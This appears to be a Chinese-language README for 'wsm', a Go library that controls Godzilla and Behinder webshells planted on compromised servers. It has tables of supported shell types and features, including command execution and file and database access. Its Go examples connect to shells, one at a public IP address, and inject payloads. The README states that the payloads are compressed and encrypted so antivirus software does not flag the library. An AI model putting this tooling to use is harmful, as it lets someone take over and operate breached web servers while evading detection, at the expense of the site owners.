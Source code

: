 # wsm

通过 go 直接管理您的哥斯拉或冰蝎 webshell 的库

#### 哥斯拉

| 脚本类型  | 加密类型          | 功能支持                                       |
| --------- | ----------------- | ---------------------------------------------- |
| asp       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 冰蝎

| 脚本类型  | 加密类型 | 功能支持                                       |
| --------- | -------- | ---------------------------------------------- |
| asp       | XOR      | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES      | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES      | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR、AES | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 例子

冰蝎

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/behinder"
	"log"
)

func main() {
	info := &wsm.BehinderInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://127.0.0.1:8080/bx.jsp",
			Password: "rebeyond",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
			Headers:  nil,
		}}
	bx, err := wsm.NewBehinder(info)
	if err != nil {
		log.Println(err)
	}
	// 验证存活
	i, err := bx.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(i)
}
```

##### 哥斯拉

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/charset"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/godzilla"
	"log"
)

func main() {
	info := &wsm.GodzillaInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://139.196.175.86:8080/bs64.jsp",
			Password: "pass",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
		},
		Key:      "key",
		Crypto:   godzilla.JAVA_AES_BASE64,
		Encoding: charset.UTF8CharSet,
	}
	g, err := wsm.NewGodzillaInfo(info)
	if err != nil {
		log.Println(err)
	}
	// 注入全部的 payload
	err = g.InjectPayload()
	if err != nil {
		log.Println(err)
	}

	isAlive, err := g.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(isAlive)
}
```

更多例子可以看 [**examples**](https://github.com/Go0p/wsm/tree/main/examples)

#### 说明

**payload 进行了 gzip 压缩后再 aes 加密，这样做是为了拉取该库时，不被杀软报毒**

#### 感谢

[Behinder](https://github.com/rebeyond/Behinder)

[Godzilla](https://github.com/BeichenDream/Godzilla)

[As-Exploits](https://github.com/yzddmr6/As-Exploits)

[每篇文章](https://yzddmr6.com/)

